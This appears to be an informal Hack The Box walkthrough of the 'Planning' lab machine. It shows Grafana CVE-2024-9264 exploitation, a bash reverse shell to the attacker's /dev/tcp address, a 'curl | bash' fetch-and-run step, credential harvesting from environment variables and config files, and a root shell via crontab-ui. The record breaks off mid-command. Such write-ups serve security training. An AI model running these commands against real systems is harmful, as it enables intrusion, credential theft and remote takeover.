

# Planning

not really a writeup but more towards note.

```bash
$ sudo nmap -sC -sV -vv -oA . 10.10.11.68
Discovered open port 22/tcp on 10.10.11.68
Discovered open port 80/tcp on 10.10.11.68
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMv/TbRhuPIAz+BOq4x+61TDVtlp0CfnTA2y6mk03/g2CffQmx8EL/uYKHNYNdnkO7MO3DXpUbQGq1k2H6mP6Fg=
|   256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpJkWOBF3N5HVlTJhPDWhOeW+p9G7f2E9JnYIhKs6R0
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
$ sudo nano /etc/hosts
10.10.11.68     planning.htb
```



look at the 404 page

<figure><figcaption></figcaption></figure>

Look at sourcecode. found php.

```bash
$ gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: grafana.planning.htb Status: 302 [Size: 29] [--> /login]
```

```bash
$ sudo nano /etc/hosts
10.10.11.68     grafana.planning.htb
```



htb gave admin / 0D5oT70Fq13EvB5r to login

<figure><figcaption></figcaption></figure>

searched grafana changelog/release note on google to know if its old or not



search grafana and go to vulnerabilities. search for red (or maybe potential exploit)

<figure><figcaption></figcaption></figure>

search CVE-2024-9264 github for potential poc



```bash
┌──(venv)(zeqzoq㉿zeqzoq)-[/mnt/c/Users/hzqzz/Downloads/htb/planning/CVE-2024-9264]
└─$ python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c id http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: id
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('id >/tmp/grafana_cmd_output 2>&1
|'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
uid=0(root) gid=0(root) groups=0(root)
```


```
bash -c 'bash -i >& /dev/tcp/10.10.14.121/9001 0>&1'
```


```bash
$ mkdir www
$ nano shell.sh
$ mv shell.sh www
$ cd www
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
```

```bash
$ python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "/usr/bin/curl http://10.10.14.121:8000/shell.sh | bash
" http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: /usr/bin/curl http://10.10.14.121:8000/shell.sh | bash
⠴ Running duckdb query
```

```bash
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.68 - - [25/Sep/2025 23:15:18] "GET /shell.sh HTTP/1.1" 200 -
```

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.121] from (UNKNOWN) [10.10.11.68] 44744
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~#
```

```bash
root@7ce659d667d7:~# env
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=3
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```

found user and password

```bash
$ ssh enzo@10.10.11.68
The authenticity of host '10.10.11.68 (10.10.11.68)' can't be established.
ED25519 key fingerprint is SHA256:iDzE/TIlpufckTmVF0INRVDXUEu/k2y3KbqA/NDvRXw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.68' (ED25519) to the list of known hosts.
enzo@10.10.11.68's password:
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Sep 25 03:20:16 PM UTC 2025

  System load:  0.0               Processes:             233
  Usage of /:   65.7% of 6.30GB   Users logged in:       0
  Memory usage: 41%               IPv4 address for eth0: 10.10.11.68
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

102 updates can be applied immediately.
77 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Thu Sep 25 15:20:18 2025 from 10.10.14.121
```

```bash
enzo@planning:~$ cat user.txt
c23ae231ad3f0268af50195b561c9a7b
```

```bash
enzo@planning:~$ find . -type f
./user.txt
./.ssh/authorized_keys
./.cache/motd.legal-displayed
./.profile
./.bash_logout
./.bashrc
```

```bash
enzo@planning:~$ ps -ef --forest
UID          PID    PPID  C STIME TTY          TIME CMD
enzo        2963    2962  0 15:20 pts/0    00:00:00 -bash
enzo        3035    2963  0 15:22 pts/0    00:00:00  \_ ps -ef --forest
```

```bash
enzo@planning:~$ ss -lntp
State        Recv-Q       Send-Q             Local Address:Port               Peer Address:Port       Process
LISTEN       0            4096                   127.0.0.1:3000                    0.0.0.0:*
LISTEN       0            511                    127.0.0.1:8000                    0.0.0.0:*
LISTEN       0            4096               127.0.0.53%lo:53                      0.0.0.0:*
LISTEN       0            511                      0.0.0.0:80                      0.0.0.0:*
LISTEN       0            70                     127.0.0.1:33060                   0.0.0.0:*
LISTEN       0            4096                   127.0.0.1:36201                   0.0.0.0:*
LISTEN       0            4096                  127.0.0.54:53                      0.0.0.0:*
LISTEN       0            151                    127.0.0.1:3306                    0.0.0.0:*
LISTEN       0            4096                           *:22                            *:*
```

port 3000 and 8000 seems interestin. port 80 is the web server

```bash
enzo@planning:~$ cd /etc
enzo@planning:/etc$ grep -R 8000 2>/dev/null
sensors3.conf:chip "f71858fg-*" "f8000-*"
enzo@planning:/etc$ grep -R 3000 2>/dev/null
pam.d/login:auth       optional   pam_faildelay.so  delay=3000000
ssh/moduli:20231002033000 2 6 100 3071 5 D435B9DA29C6441FE8C9693F4276E0DF5FC91028EBCB2FE2DC0EC03A9F7BF53BB1B447DC71B517B5CB363A71FE199CF790CC42C21692526421D200C39C2B41EA8E9DBF0FE4366B1B372C69B33D6381A38E1213F317D0D792C826510E72F70F2B198DDB768D19FB28E5FC20D678044D67BC6DAF6B7496AE902BB7C07BE6D2671A284A226179B73C43DA4902313D03A601BE81267B9A7D0064E386FC1B1DD31D7146BB837B5D0CED5CC5D834BC0E25F4C2EF181A881B4F5B96C34324758D5FEAF5659098F445871B6593AD4F6E2BC5CC01BF7DA5827BFEED605C26B0C50B6B308EE376528A933E01DA445D5902DCF4C937B2D575EDD33ECE07EA6738167858430515AF1B160E301ED1C4096871F2248CD83019FA381449723D2F220D94F4CE3C2E6A789D6748B0BDADE26ED2B445AE04B421342393804D7F0EBF6A53AE289FA16A0366F419EF5BA2690690836055833140A8EA541F6329E12C6C094667CE2E744DE08B6ADB36E944EE9E8721E0D7E6D6953B9C0AFB033EC9A1E229CB12DBDC876F
nginx/sites-enabled/default:        proxy_pass http://grafana.planning.htb:3000/;
nginx/sites-available/default:        proxy_pass http://grafana.planning.htb:3000/;
rpc:amd         300019  amq
mime.types:application/vnd.minisoft-hp3000-save
mime.types:application/vnd.wrq-hp3000-labelled
```

we see the grafana is in the nginx directory adn using port 3000. but we dont know whats in port 8000

```bash
enzo@planning:/etc$ curl -I http://127.0.0.1:8000
HTTP/1.1 401 Unauthorized
X-Powered-By: Express
WWW-Authenticate: Basic realm="Restricted Area"
Content-Type: text/html; charset=utf-8
Content-Length: 0
ETag: W/"0-2jmj7l5rSw0yVb/vlWAYkK/YBwk"
Date: Thu, 25 Sep 2025 15:28:06 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

From here we know its another web server. we know this is not nginx because it doesnt have it in nginx config just now. so take a look at web directory

```bash
enzo@planning:/etc/nginx$ cd /var/www
enzo@planning:/var/www$ ls
web
enzo@planning:/var/www$ cd web
enzo@planning:/var/www/web$ ls
about.php  contact.php  course.php  css  detail.php  enroll.php  img  index.php  js  lib  scss
enzo@planning:/var/www/web$ cat index.php
<?php
$servername = "localhost";
$username = "root";
$password = "EXTRapHY";
$dbname = "edukate";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

$message = '';

if (isset($_POST['keyword'])) {
    $keyword = $_POST['keyword'];

    $sql = "SELECT * FROM courses WHERE course_name LIKE ?";
    $stmt = $conn->prepare($sql);
    $keyword = "%" . $keyword . "%";
    $stmt->bind_param("s", $keyword);

    $stmt->execute();
    $result = $stmt->get_result();

    if ($result->num_rows > 0) {
        $message = '<h3>Search results:</h3>';
        while ($row = $result->fetch_assoc()) {
            $message .= "<p>" . $row['course_name'] . " - " . $row['description'] . "</p>";
        }
    } else {
        $message = '<h3>Search results:</h3>';
    }

    $stmt->close();
}

$conn->close();
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <title>Edukate - Online Education Website</title>
    <meta content="width=device-width, initial-scale=1.0" name="viewport">

    <!-- Favicon -->
    <link href="img/favicon.ico" rel="icon">

    <!-- Libraries Stylesheet -->
    <link href="lib/owlcarousel/assets/owl.carousel.min.css" rel="stylesheet">

    <!-- Customized Bootstrap Stylesheet -->
    <link href="css/style.css" rel="stylesheet">
    <style>
        .message {
            margin-top: 20px;
            font-size: 18px;
            color: #ffff;
        }
    </style>
</head>

<body>

    <!-- Navbar Start -->
    <div class="container-fluid p-0">
        <nav class="navbar navbar-expand-lg bg-white navbar-light py-3 py-lg-0 px-lg-5">
            <a href="index.php" class="navbar-brand ml-lg-3">
                <h1 class="m-0 text-uppercase text-primary"><i class="fa fa-book-reader mr-3"></i>Edukate</h1>
            </a>
            <button type="button" class="navbar-toggler" data-toggle="collapse" data-target="#navbarCollapse">
                <span class="navbar-toggler-icon"></span>
            </button>
            <div class="collapse navbar-collapse justify-content-between px-lg-3" id="navbarCollapse">
                <div class="navbar-nav mx-auto py-0">
                    <a href="index.php" class="nav-item nav-link active">Home</a>
                    <a href="about.php" class="nav-item nav-link">About</a>
                    <a href="course.php" class="nav-item nav-link">Courses</a>
                    <a href="contact.php" class="nav-item nav-link">Contact</a>
                </div>
            </div>
        </nav>
    </div>
    <!-- Navbar End -->


    <!-- Header Start -->
    <body>
    <div class="jumbotron jumbotron-fluid position-relative overlay-bottom" style="margin-bottom: 90px;">
        <div class="container text-center my-5 py-5">
            <h1 class="text-white mt-4 mb-4">Learn From Home</h1>
            <h1 class="text-white display-1 mb-5">Education Courses</h1>
            <div class="mx-auto mb-5" style="width: 100%; max-width: 600px;">
                <!-- Formulario con método GET -->
                <form action="index.php" method="POST">
                    <div class="input-group">
                        <div class="input-group-prepend">
                            <button class="btn btn-outline-light bg-white text-body px-4 dropdown-toggle" type="button" data-toggle="dropdown" aria-haspopup="true" aria-expanded="false">Courses</button>
                            <div class="dropdown-menu">
                                <a class="dropdown-item" href="#">Web Design</a>
                                <a class="dropdown-item" href="#">Web Development</a>
                                <a class="dropdown-item" href="#">Online Marketing</a>
                            </div>
                        </div>
                        <input type="text" name="keyword" class="form-control border-light" style="padding: 30px 25px;" placeholder="Keyword">
                        <div class="input-group-append">
                            <button class="btn btn-secondary px-4 px-lg-5">Search</button>
                        </div>
                    </div>
                </form>
            </div>

            <!-- Mostrar los resultados debajo de la barra de búsqueda -->
            <div class="message">
                <?php echo $message; ?>
            </div>
        </div>
    </div>
    <!-- Header End -->


    <!-- About Start -->
    <div class="container-fluid py-5">
        <div class="container py-5">
            <div class="row">
                <div class="col-lg-5 mb-5 mb-lg-0" style="min-height: 500px;">
                    <div class="position-relative h-100">
                        
                    </div>
                </div>
                <div class="col-lg-7">
                    <div class="section-title position-relative mb-4">
                        <h6 class="d-inline-block position-relative text-secondary text-uppercase pb-2">About Us</h6>
                        <h1 class="display-4">First Choice For Online Education Anywhere</h1>
                    </div>
                    <p>Your ultimate destination for flexible, high-quality online education. Whether you're looking to enhance your career, explore new subjects, or develop valuable skills, we provide a diverse range of courses designed to fit your unique needs. Our platform offers easy access to top-notch learning materials and expert instructors, available anytime, anywhere, so you can learn at your own pace and from the comfort of your home.</p>
                    <div class="row pt-3 mx-0">
                        <div class="col-3 px-0">
                            <div class="bg-success text-center p-4">
                                <h1 class="text-white" data-toggle="counter-up">123</h1>
                                <h6 class="text-uppercase text-white">Available<span class="d-block">Subjects</span></h6>
                            </div>
                        </div>
                        <div class="col-3 px-0">
                            <div class="bg-primary text-center p-4">
                                <h1 class="text-white" data-toggle="counter-up">500</h1>
                                <h6 class="text-uppercase text-white">Online<span class="d-block">Courses</span></h6>
                            </div>
                        </div>
                        <div class="col-3 px-0">
                            <div class="bg-secondary text-center p-4">
                                <h1 class="text-white" data-toggle="counter-up">342</h1>
                                <h6 class="text-uppercase text-white">Skilled<span class="d-block">Instructors</span></h6>
                            </div>
                        </div>
                        <div class="col-3 px-0">
                            <div class="bg-warning text-center p-4">
                                <h1 class="text-white" data-toggle="counter-up">621</h1>
                                <h6 class="text-uppercase text-white">Happy<span class="d-block">Students</span></h6>
                            </div>
                        </div>
                    </div>
                </div>
            </div>
        </div>
    </div>
    <!-- About End -->


    <!-- Feature Start -->
    <div class="container-fluid bg-image" style="margin: 90px 0;">
        <div class="container">
            <div class="row">
                <div class="col-lg-7 my-5 pt-5 pb-lg-5">
                    <div class="section-title position-relative mb-4">
                        <h6 class="d-inline-block position-relative text-secondary text-uppercase pb-2">Why Choose Us?</h6>
                        <h1 class="display-4">Why You Should Start Learning with Us?</h1>
                    </div>
                    <p class="mb-4 pb-2">At Edukate, we believe in empowering you to learn and grow on your own terms. Here's why you should start your educational journey with us.</p>
                    <div class="d-flex mb-3">
                        <div class="btn-icon bg-primary mr-4">
                            <i class="fa fa-2x fa-graduation-cap text-white"></i>
                        </div>
                        <div class="mt-n1">
                            <h4>Skilled Instructors</h4>
                            <p>Gain knowledge from industry professionals and experienced educators who are passionate about teaching and dedicated to your success.</p>
                        </div>
                    </div>
                    <div class="d-flex mb-3">
                        <div class="btn-icon bg-secondary mr-4">
                            <i class="fa fa-2x fa-certificate text-white"></i>
                        </div>
                        <div class="mt-n1">
                            <h4>International Certificate</h4>
                            <p>By completing our high-quality, expert-led courses, you earn a certification that is valued by employers and educational institutions worldwide. </p>
                        </div>
                    </div>
                    <div class="d-flex">
                        <div class="btn-icon bg-warning mr-4">
                            <i class="fa fa-2x fa-book-reader text-white"></i>
                        </div>
                        <div class="mt-n1">
                            <h4>Online Classes</h4>
                            <p class="m-0">Learn at your own pace, anytime, anywhere. Our platform is designed to fit your schedule, making it easy for you to balance education with everyday life.</p>
                        </div>
                    </div>
                </div>
                <div class="col-lg-5" style="min-height: 500px;">
                    <div class="position-relative h-100">
                        
                    </div>
                </div>
            </div>
        </div>
    </div>
    <!-- Feature Start -->


    <!-- Courses Start -->
    <div class="container-fluid px-0 py-5">
        <div class="row mx-0 justify-content-center pt-5">
            <div class="col-lg-6">
                <div class="section-title text-center position-relative mb-4">
                    <h6 class="d-inline-block position-relative text-secondary text-uppercase pb-2">Our Courses</h6>
                    <h1 class="display-4">Checkout New Releases Of Our Courses</h1>
                </div>
            </div>
        </div>
        <div class="owl-carousel courses-carousel">
            <div class="courses-item position-relative">
                
                <div class="courses-text">
                    <h4 class="text-center text-white px-3">Web design course for beginners</h4>
                    <div class="border-top w-100 mt-3">
                        <div class="d-flex justify-content-between p-4">
                            <span class="text-white"><i class="fa fa-user mr-2"></i>Rose Mary</span>
                            <span class="text-white"><i class="fa fa-star mr-2"></i>4.5 <small>(250)</small></span>
                        </div>
                    </div>
                    <div class="w-100 bg-white text-center p-4" >
                        <a class="btn btn-primary" href="detail.php">Course Detail</a>
                    </div>
                </div>
            </div>
            <div class="courses-item position-relative">
                
                <div class="courses-text">
                    <h4 class="text-center text-white px-3">Web development course for beginners</h4>
                    <div class="border-top w-100 mt-3">
                        <div class="d-flex justify-content-between p-4">
                            <span class="text-white"><i class="fa fa-user mr-2"></i>Bob Moss</span>
                            <span class="text-white"><i class="fa fa-star mr-2"></i>4.8 <small>(300)</small></span>
                        </div>
                    </div>
                    <div class="w-100 bg-white text-center p-4" >
                        <a class="btn btn-primary" href="detail.php">Course Detail</a>
                    </div>
                </div>
            </div>
            <div class="courses-item position-relative">
                
                <div class="courses-text">
                    <h4 class="text-center text-white px-3">Online Marketing course for beginners</h4>
                    <div class="border-top w-100 mt-3">
                        <div class="d-flex justify-content-between p-4">
                            <span class="text-white"><i class="fa fa-user mr-2"></i>Stella Haks</span>
                            <span class="text-white"><i class="fa fa-star mr-2"></i>4.5 <small>(250)</small></span>
                        </div>
                    </div>
                    <div class="w-100 bg-white text-center p-4" >
                        <a class="btn btn-primary" href="detail.php">Course Detail</a>
                    </div>
                </div>
            </div>
        </div>
    </div>
    <!-- Courses End -->


    <!-- Team Start -->
    <div class="container-fluid py-5">
        <div class="container py-5">
            <div class="section-title text-center position-relative mb-5">
                <h6 class="d-inline-block position-relative text-secondary text-uppercase pb-2">Instructors</h6>
                <h1 class="display-4">Meet Our Instructors</h1>
            </div>
            <div class="owl-carousel team-carousel position-relative" style="padding: 0 30px;">
                <div class="team-item">
                    
                    <div class="bg-light text-center p-4">
                        <h5 class="mb-3">Rose Mary</h5>
                        <p class="mb-2">Web Design</p>
                        <div class="d-flex justify-content-center">
                            <a class="mx-1 p-1" href="#"><i class="fab fa-twitter"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-facebook-f"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-linkedin-in"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-instagram"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-youtube"></i></a>
                        </div>
                    </div>
                </div>
                <div class="team-item">
                    
                    <div class="bg-light text-center p-4">
                        <h5 class="mb-3">Bob Moss</h5>
                        <p class="mb-2">Web Development</p>
                        <div class="d-flex justify-content-center">
                            <a class="mx-1 p-1" href="#"><i class="fab fa-twitter"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-facebook-f"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-linkedin-in"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-instagram"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-youtube"></i></a>
                        </div>
                    </div>
                </div>
                <div class="team-item">
                    
                    <div class="bg-light text-center p-4">
                        <h5 class="mb-3">Stella Haks</h5>
                        <p class="mb-2">Marketing</p>
                        <div class="d-flex justify-content-center">
                            <a class="mx-1 p-1" href="#"><i class="fab fa-twitter"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-facebook-f"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-linkedin-in"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-instagram"></i></a>
                            <a class="mx-1 p-1" href="#"><i class="fab fa-youtube"></i></a>
                        </div>
                    </div>
                </div>
            </div>
        </div>
    </div>
    <!-- Team End -->


    <!-- Testimonial Start -->
    <div class="container-fluid bg-image py-5" style="margin: 90px 0;">
        <div class="container py-5">
            <div class="row align-items-center">
                <div class="col-lg-5 mb-5 mb-lg-0">
                    <div class="section-title position-relative mb-4">
                        <h6 class="d-inline-block position-relative text-secondary text-uppercase pb-2">Testimonial</h6>
                        <h1 class="display-4">What Say Our Students</h1>
                    </div>
                    <p class="m-0">At Edukate, our students are at the heart of everything we do. Here's what they have to say about their learning experience with us.</p>
                </div>
                <div class="col-lg-7">
                    <div class="owl-carousel testimonial-carousel">
                        <div class="bg-white p-5">
                            <i class="fa fa-3x fa-quote-left text-primary mb-4"></i>
                            <p>
                            <p>Taking courses on Edukate has been a game-changer for my career. The flexibility to learn at my own pace while still receiving top-notch instruction has allowed me to balance work and study effortlessly. I recently completed a certification in digital marketing, and the skills I gained directly helped me land a promotion at work. I highly recommend this platform to anyone looking to enhance their knowledge.</p>
                            <div class="d-flex flex-shrink-0 align-items-center mt-4">
                                
                                <div>
                                    <h5>Student Name</h5>
                                    <span>Online Marketing</span>
                                </div>
                            </div>
                        </div>
                        <div class="bg-white p-5">
                            <i class="fa fa-3x fa-quote-left text-primary mb-4"></i>
                            <p>
                            <p>I've always wanted to learn graphic design but struggled to find a platform that offered both quality content and the flexibility I needed. Edukate has exceeded all my expectations. The courses are well-structured, engaging, and easy to follow. The real-world projects really helped me build a strong portfolio. Thanks to this platform, I've already started freelancing and landing clients! I'm excited for what's next.</p>
                            <div class="d-flex flex-shrink-0 align-items-center mt-4">
                                
                                <div>
                                    <h5>Student Name</h5>
                                    <span>Web Design</span>
                                </div>
                            </div>
                        </div>
                    </div>
                </div>
            </div>
        </div>
    </div>
    <!-- Testimonial Start -->


    <!-- Footer Start -->
    <div class="container-fluid position-relative overlay-top bg-dark text-white-50 py-5" style="margin-top: 90px;">
        <div class="container mt-5 pt-5">
            <div class="row">
                <div class="col-md-12 mb-5">
                    <a href="index.php" class="navbar-brand">
                        <h1 class="mt-n2 text-uppercase text-white"><i class="fa fa-book-reader mr-3"></i>Edukate</h1>
                    </a>
                    <p class="m-0">Sign up today and stay connected with a world of learning opportunities. Whether you're looking to advance your career or explore new interests, our newsletter will keep you informed and motivated every step of the way!</p>
                </div>
            </div>
            <div class="row">
                <div class="col-md-4 mb-5">
                    <h3 class="text-white mb-4">Get In Touch</h3>
                    <p><i class="fa fa-map-marker-alt mr-2"></i>59 Street, New York, USA</p>
                    <p><i class="fa fa-phone-alt mr-2"></i>+077 345 67890</p>
                    <p><i class="fa fa-envelope mr-2"></i>info@planning.htb</p>
                    <div class="d-flex justify-content-start mt-4">
                        <a class="text-white mr-4" href="#"><i class="fab fa-2x fa-twitter"></i></a>
                        <a class="text-white mr-4" href="#"><i class="fab fa-2x fa-facebook-f"></i></a>
                        <a class="text-white mr-4" href="#"><i class="fab fa-2x fa-linkedin-in"></i></a>
                        <a class="text-white" href="#"><i class="fab fa-2x fa-instagram"></i></a>
                    </div>
                </div>
                <div class="col-md-4 mb-5">
                    <h3 class="text-white mb-4">Our Courses</h3>
                    <div class="d-flex flex-column justify-content-start">
                        <a class="text-white-50 mb-2" href="#"><i class="fa fa-angle-right mr-2"></i>Web Design</a>
                        <a class="text-white-50 mb-2" href="#"><i class="fa fa-angle-right mr-2"></i>Apps Design</a>
                        <a class="text-white-50 mb-2" href="#"><i class="fa fa-angle-right mr-2"></i>Marketing</a>
                        <a class="text-white-50 mb-2" href="#"><i class="fa fa-angle-right mr-2"></i>Research</a>
                        <a class="text-white-50" href="#"><i class="fa fa-angle-right mr-2"></i>SEO</a>
                    </div>
                </div>
                <div class="col-md-4 mb-5">
                    <h3 class="text-white mb-4">Quick Links</h3>
                    <div class="d-flex flex-column justify-content-start">
                        <a class="text-white-50 mb-2" href="#"><i class="fa fa-angle-right mr-2"></i>Privacy Policy</a>
                        <a class="text-white-50 mb-2" href="#"><i class="fa fa-angle-right mr-2"></i>Terms & Condition</a>
                        <a class="text-white-50 mb-2" href="#"><i class="fa fa-angle-right mr-2"></i>Regular FAQs</a>
                        <a class="text-white-50 mb-2" href="#"><i class="fa fa-angle-right mr-2"></i>Help & Support</a>
                        <a class="text-white-50" href="#"><i class="fa fa-angle-right mr-2"></i>Contact</a>
                    </div>
                </div>
            </div>
        </div>
    </div>
    <div class="container-fluid bg-dark text-white-50 border-top py-4" style="border-color: rgba(256, 256, 256, .1) !important;">
        <div class="container">
            <div class="row">
                <div class="col-md-6 text-center text-md-left mb-3 mb-md-0">
                    <p class="m-0">Copyright &copy; <a class="text-white" href="#">planning.htb</a> All Rights Reserved.
                    </p>
                </div>
            </div>
        </div>
    </div>
    <!-- Footer End -->


    <!-- Back to Top -->
    <a href="#" class="btn btn-lg btn-primary rounded-0 btn-lg-square back-to-top"><i class="fa fa-angle-double-up"></i></a>


    <!-- JavaScript Libraries -->
    <script src="https://code.jquery.com/jquery-3.4.1.min.js"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.bundle.min.js"></script>
    <script src="lib/easing/easing.min.js"></script>
    <script src="lib/waypoints/waypoints.min.js"></script>
    <script src="lib/counterup/counterup.min.js"></script>
    <script src="lib/owlcarousel/owl.carousel.min.js"></script>

    <!-- Template Javascript -->
    <script src="js/main.js"></script>
</body>

</html>
```

found password for root:EXTRapHY

tried su root, tried login mysql database.

enumerate more. commonly web server also can appear in /opt

```bash
enzo@planning:/var/www/web$ cd /opt
enzo@planning:/opt$ ls
containerd  crontabs
enzo@planning:/opt$ cd crontabs
enzo@planning:/opt/crontabs$ ls
crontab.db
enzo@planning:/opt/crontabs$ cat crontab.db
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

found another password P4ssw0rdS0pRi0T3c

tried su

enumerate more. then list services on the box

```bash
enzo@planning:/opt/crontabs$ cd /etc/systemd
enzo@planning:/etc/systemd$ find . -type f -ls
   263662      4 -rw-r--r--   1 root     root         1663 Oct 17  2024 ./logind.conf
   263666      4 -rw-r--r--   1 root     root         1060 Feb 27  2024 ./sleep.conf
   263668      4 -rw-r--r--   1 root     root         1003 Oct 17  2024 ./timesyncd.conf
   262890      4 -rw-r--r--   1 root     root         1562 Jul  3 11:01 ./resolved.conf
   263664      4 -rw-r--r--   1 root     root          879 Feb 27  2024 ./pstore.conf
   263663      4 -rw-r--r--   1 root     root         1083 Feb 27  2024 ./networkd.conf
   263661      4 -rw-r--r--   1 root     root         1406 Feb 27  2024 ./journald.conf
   263669      4 -rw-r--r--   1 root     root         1768 Oct 17  2024 ./user.conf
   263667      4 -rw-r--r--   1 root     root         2318 Oct 17  2024 ./system.conf
   263947      4 -rw-r-----   1 root     root          309 Feb 28  2025 ./system/crontab-ui.service
```

we found crontab-ui. now need to forward port because we can open contab-ui in browser using enzo's firefox

```bash
$ ssh -o EnableEscapeCommandline=yes enzo@10.10.11.68
enzo@10.10.11.68's password:
enzo@planning:~$
//here type ~C to escape to SSH>
ssh>
```

```bash
ssh> -L 8001:127.0.0.1:8000
```

we listen on port 8001 because already open port 8000 for http server for shell.sh jsut now

go to http://127.0.0.1:8001

<figure><figcaption></figcaption></figure>

tried the password root:P4ssw0rdS0pRi0T3c

<figure><figcaption></figcaption></figure>

click new

<figure><figcaption></figcaption></figure>

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
```

save then Run now

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.121] from (UNKNOWN) [10.10.11.68] 35312
bash: cannot set terminal process group (1189): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# ls
ls
bin
bin.usr-is-merged
boot
cdrom
dev
etc
home
lib
lib64
lib.usr-is-merged
lost+found
media
mnt
opt
proc
root
run
sbin
sbin.usr-is-merged
srv
sys
tmp
usr
var
root@planning:/# cat home/enzo/user.txt
cat home/enzo/user.txt
